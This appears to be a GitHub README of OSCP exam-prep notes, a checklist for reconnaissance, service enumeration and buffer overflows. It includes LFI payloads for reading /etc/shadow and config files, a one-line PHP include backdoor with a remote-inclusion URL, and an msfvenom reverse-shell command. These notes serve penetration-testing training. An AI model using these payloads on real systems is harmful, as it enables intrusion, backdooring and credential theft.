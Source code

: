 # How to pass the OSCP

1. Recon
2. Find vuln
3. Exploit
4. Document it

## Recon

Unicornscans in cli, nmap in msfconsole to help store loot in database.

### TCP

```
unicornscan -i tap0 -I -mT $IP:a
db_nmap -e tap0 -n -v -Pn -sV -sC --version-light -A -p
```

### UDP 

```
unicornscan -i tap0 -I -mU $IP:a
db_nmap -e tap0 -n -v -Pn -sV -sC --version-light -A -sU -p
```

## Enumerating 

This is the essential part of penetration. Find out what is available and how you could punch through it with minimum ease.

DO NOT SKIP STEPS.

DO NOT PASS GO.

SEARCH ***ALL*** THE VERSIONS WITH `searchsploit` 
(or google -> `site:exploit-db.com APP VERSION`)


### HTTP - 80, 8080, 8000

```
curl -i ${IP}/robots.txt
```

Note down Server and other module versions.

searchsploit them ALL.

Visit all URLs from robots.txt.

```
nikto -host $IP
```

```
gobuster -u http://$IP -w /usr/share/seclists/Discovery/Web_Content/Top1000-RobotsDisallowed.txt

gobuster -u http://$IP -w /usr/share/seclists/Discovery/Web_Content/common.txt
```

if nothing, find more web word lists.

*Browse the site* but keep an eye on the burp window / source code / cookies etc.

Things to be on look for:

- Default credentials for software
- SQL-injectable GET/POST params
- LFI/RFI through ?page=foo type params
- LFI:
  - `/etc/passwd` | `/etc/shadow` insta-win
  - `/var/www/html/config.php` or similar paths to get SQL etc creds
  - `?page=php://filter/convert.base64-encode/resource=../config.php`
  - `../../../../../boot.ini` to find out windows version
- RFI:
  - Have your PHP/cgi downloader ready
  - `<?php include $_GET['inc']; ?>` simplest backdoor to keep it dynamic without anything messing your output
  - Then you can just `http://$IP/inc.php?inc=http://$YOURIP/bg.php` and have full control with minimal footprint on target machine
  - get `phpinfo()`


### HTTPS - 443

Heartbleed / CRIME / Other similar attacks

Read the actual SSL CERT to:

- find out potential correct vhost to GET
- is the clock skewed
- any names that could be usernames for bruteforce/guessing.

### FTP - 21

- Anonymous login
- Enumerate the hell out of the machine!
  - OS version
  - Other software you can find on the machine (Prog Files, yum.log, /bin)
  - password files
  - DLLs for `msfpescan` / BOF targets
- Do you have UPLOAD potential?
  - Can you trigger execution of uploads?
  - Swap binaries?
- Vulnerabilities in version / RCE / #WINNING?-D

### SMB - 139, 445

```
enum4linux -a $IP
```

Read through the report and search for versions of things => `searchsploit`

```
smbclient -L $IP
```

Mount shares

```
mount -t cifs -o user=USERNAME,sec=ntlm,dir_mode=0077 "//10.10.10.10/My Share" /mnt/cifs
```

Can you access shares?

- Directly exploitable MSxx-xxx versions?
  - Worth burning MSF strike?


### SNMP - UDP 161

- Try to enumerate windows shares / network info

Quick test of communities:

```
onesixtyone
```

Full discovery of everything you can:

```
snmp-check
```


### TFTP - UDP 69

- Read / Write access?
  - Pretty much same things as FTP

### SSH - 22

Unless you get a MOTD or a broken sshd version, you are SOOL and this is likely just a secondary access point once you break something else.

### Email - 25, 110/995 or 143/993

SMTP, POP3(s) and IMAP(s) are good for enumerating users.

Also: ***CHECK VERSIONS*** and `searchsploit`


## Buffer Overflow

1. Determine length of overflow trigger w/ binary search "A"x1000
2. Determine exact EIP with `pattern_create.rb` & `pattern_offset.rb`
3. Determine badchars to make sure all of your payload is getting through
4. Develop exploit
  - Is the payload right at ESP 
    - `JMP ESP`
  - Is the payload before ESP 
    - `sub ESP, 200` and then `JMP ESP`
    - or
    - `call [ESP-200]`
5. `msfvenom -a x86 --platform windows/linux -p something/shell/reverse_tcp lhost=x.x.x.x lport=53 -f exe/elf/python/perl/php -o filename`
  - Make sure it fits your payload length above
6. Gain shell, local priv esc or rooted already?

## Misc tools

- `cewl` for crawling a site for bruteforcing user/password
- don't forget about `nmap` scripts!
  - e.g. `--script smtp-commands` or `--script auth-owners`